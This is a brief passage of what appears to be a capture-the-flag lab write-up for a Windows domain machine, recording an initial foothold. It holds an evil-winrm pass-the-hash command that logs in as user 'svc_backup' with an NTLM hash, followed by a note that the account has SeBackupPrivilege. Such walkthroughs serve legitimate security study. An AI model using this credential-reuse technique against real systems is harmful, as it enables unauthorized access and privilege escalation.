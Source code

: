 Got initial foothold on the machine using the gathered hash for user `svc_backup` using evil-winrm
```bash
evil-winrm -i 10.10.10.192 -u 'BLACKFIELD.local\svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```

Getting the privilege information for user `svc_backup`
![[Pasted image 20241011160817.png]]
The user has SeBackupPrivilege enabled.

